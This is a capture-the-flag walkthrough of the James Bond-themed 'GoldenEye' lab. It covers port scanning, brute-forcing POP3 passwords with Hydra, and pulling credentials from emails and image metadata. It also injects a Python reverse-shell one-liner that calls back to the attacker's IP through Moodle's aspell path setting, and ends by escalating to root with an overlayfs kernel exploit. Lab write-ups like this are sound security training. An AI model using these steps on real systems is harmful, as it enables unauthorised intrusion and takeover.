





# Golden Eye

This machine tells an intriguing story from the world of James Bond. As we enumerate and explore its contents, the narrative becomes increasingly clear.

Using rustscan to enumerate open ports reveals four services: SMTP on port 25, an HTTP server on port 80, and POP3 running on ports 55006 and 55007. 

`rustscan -a 10.10.141.140 -- -sC  -sV` 

```php
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.141.140:25
Open 10.10.141.140:80
Open 10.10.141.140:55006
Open 10.10.141.140:55007
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 11:46 IST
PORT      STATE SERVICE  REASON         VERSION
25/tcp    open  smtp     syn-ack ttl 60 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     syn-ack ttl 60 Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
55006/tcp open  ssl/pop3 syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL USER TOP PIPELINING RESP-CODES AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
55007/tcp open  pop3     syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: PIPELINING STLS TOP USER SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
```

The webpage displays a *TOP SECRET*  landing page that leads to a login screen. 



Examining the source code reveals a script containing two users—Boris and Natalya—along with an encoded password.


We decode the password using cyberchef.


We use the username Boris and the decoded password to login to the page `/sev-home/` .


The page source code mentions the same two users.



Examining the other services, we discover that POP3 can be used to read emails after authentication with valid credentials. Here are the common commands used.


We use `telnet` to connect and attempt authentication, but it fails. While the username is correct, we still need to find the password.



We use Hydra to brute-force the password. When the rockyou.txt wordlist proved too time-consuming, we opted for a smaller wordlist based on another walkthrough.

`hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt -s 55007 -f -V 10.10.141.140 pop3 -t 64`


Using the password we authenticate and start reading the emails.



First one is from root.


Second one from Natalya saying she can break his code.


Third one is rather interesting. It’s from a syndicate. Well well we have a mole among us. 


Next we find Natalya’s password.


The first email is from root, instructing her to stop breaking Boris's code and warning her about the Janus syndicate—the same group Boris has been communicating with. 


Second one is credentials for a new user `xenia` . Xenia is the new student sent by the syndicate who was verified by Boris.  The story is getting more clear.


To access the new URL we need to add it to `/etc/hosts` file.

`sudo nano /etc/hosts` 


We login to the URL provided using Xenia’s credentials and access the messages.

My profile → Messages


The message reveals another user `doak` . Using hydra we find his password too.


Logging in and reading the email, he has left a mail for James Bond containing his credentials for the training site.


Logging in using the credentials and access his private files. It contains a secret text file saying he has the admin credentials.

My Profile → My Private Files


Visiting the given page displays an image. After downloading it, we use `exiftool` to inspect it for any hidden metadata or embedded information.


There is some `base64` encoded message in image description. Decoding it gives us the admin credentials.


The room hints us about a vulnerability with aspell spell checker we can exploit. We search for aspell in the search box in left section.



Here there is a “Path to aspell” with commands. We rewrite it with a reverse shell command that uses python and save it.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.17.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Next we change the Spell engine to PSpellShell in text editor plugin settings and save it. 


Next to create a new page we follow the below path.

My profile → Blogs → Add a new entry


Setup  a netcat listener on the specified port and use the spell checker in the editor, which in turn will execute the command we injected in path to aspell.


We capture a reverse shell to the machine.


Now we download the `linuxprivchecker`  from the URL provided and send it to the victim machine by setting up a python server in the folder containing the file.

`https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123`


Use `wget` to download the file into the victim machine’s `/tmp` folder. Running it and looking at the installed file we can see C compilation tool `cc` in the list.


The room hints us that the machine with a kernel version of 3.13.0-32-generic is vulnerable to `overlayfs` exploit and provide us with the URL to the exploit. The exploit provided uses `gcc` , we need to change it to `cc` in the code and send it to the victim machine like we did before. Compile it using `cc` and executing it gets us the root access.

`https://www.exploit-db.com/exploits/37292`


The flag is hidden in root folder.

